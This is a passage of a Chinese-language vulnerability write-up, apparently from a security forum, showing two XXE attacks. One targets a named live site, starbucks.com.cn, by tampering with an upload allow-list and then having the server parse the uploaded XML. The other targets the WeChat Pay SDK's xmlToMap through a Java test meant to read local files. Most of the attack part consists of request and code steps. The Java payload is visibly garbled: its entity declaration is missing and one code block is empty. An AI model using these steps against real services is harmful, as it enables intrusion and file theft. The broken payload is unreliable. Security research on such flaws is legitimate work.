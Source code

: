 ```php
```

这样就可以尝试在参数allow\_file\_type\_list中添加XML，上传XML文件

```php
POST /retail/hxpublic_v6/hxdynamicpage6.aspx HTTP/1.1
Host: starbucks.com.cn
...
allow_file_type_list=jpg,png,gif,xml
...

HTTP/1.1 200 OK

...
{
   "fileUrl": "https://starbucks.com.cn/retail/tempfiles/temp_uploaded_641dee35-5a62-478e-90d7-f5558a78c60e.xml"
}
...
```

然后修改\_hxpage参数为上传的xml文件，服务器将尝试解析这个XML文件。当这个XML文件包含一个外部实体引用，服务器将尝试访问这个引用指向的URL，造成XXE攻击

```php
POST /retail/hxpublic_v6/hxdynamicpage6.aspx?_hxpage=tempfiles/temp_uploaded_641dee35-5a62-478e-90d7-f5558a78c60e.xml HTTP/1.1
Host: starbucks.com.cn
...
...
```

3.2、微信支付接口XXE
-------------

WXPayUtil下的xmlToMap方法存在XXE漏洞，使用了DocumentBuilder危险函数，直接将传入的字符串转换为了map集合，并且未对字符串进行过滤，导致攻击者可以传入任意的攻击代码。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-f667781573be98d2c579a9273e760e4eccad1a8f.png)

我们写一个测试方法，调用xmlToMap方法，发现成功读取文件内容。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-ece4848c55bc6e7cb0f062a32a87ad159b8f4469.png)

```php
package com.github.wxpay.sdk;
import java.util.Map;
public class test {
     public static void main(String[] args) {
        String str = "<?xml version='1.0' encoding='utf-8'?>\r\n"+ 
        "\r\n"+
        " ]>\r\n"+ 
        "<creds><goodies>&goodies;</goodies><pa>susu</pa></creds>";
        Map<String, String> map;
        try {
            map = new WXPayUtil().xmlToMap(str);
            System.out.println(map);   
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
